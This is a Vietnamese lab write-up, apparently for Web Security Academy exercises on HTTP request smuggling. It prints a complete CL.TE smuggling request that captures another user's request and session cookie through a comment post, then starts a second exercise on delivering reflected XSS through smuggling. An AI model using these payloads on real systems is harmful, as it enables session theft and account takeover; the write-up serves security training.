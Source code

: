 >![](https://i.imgur.com/mRufkKp.png)


<hr>

### Bài 9: Exploiting HTTP request smuggling to capture other users' requests

>![](https://i.imgur.com/kOYJn5T.png)

Mục tiêu của bài này là smuggle một request với `content-length` có giá trị lớn, để request tiếp theo của người dùng khác bị nối vào, tạo thành một `POST` request với data là `GET` request của nạn nhân, trong đó có chứa session cookie. Thông qua đó ta có thể truy cập vào tài khoản của nạn nhân được.

```!
POST / HTTP/1.1
Host: 0ada0011039edb30c0d0c7aa00af008f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 275
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 999
Cookie: session=NFbWbwiiy9b2BtNuaf2RQ75nBD3gYwpz

csrf=aZNhsK6irGZHgzOcLHxrYG4H4yQlAOx7&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=
```

Như payload phía trên, phần `content-length` của smuggling request có giá trị 999 bytes, tuy nhiên ta chỉ cung cấp 119 bytes, còn 880 bytes còn lại nó sẽ đợi từ request tiếp theo của nạn nhân và nối vào, từ đó tạo được 1 post comment request, ta có thể đọc comment để lấy thông tin nạn nhân

Kết quả:

>![](https://i.imgur.com/FwavFp1.png)

>![](https://i.imgur.com/KoGMxho.png)

<hr>

### Bài 10: Exploiting HTTP request smuggling to deliver reflected XSS

>![](https://i.imgur.com/21vexTy.png)

Thực hiện tấn công CL.TE - ứng dụng bị reflected XSS trong trường user-agent

Kiểm tra ta thấy trang web bị XSS trong chức năng comment, tuy nhiên thay vì gửi URL đến nạn nhân thì ta sử dụng smuggling attack.

Kiểm tra 1 bài post bất kì, theo dõi form comment, ta thấy `User-Agent` được reflect lại như sau:

>![](https://i.imgur.com/i0H9HCJ.png)
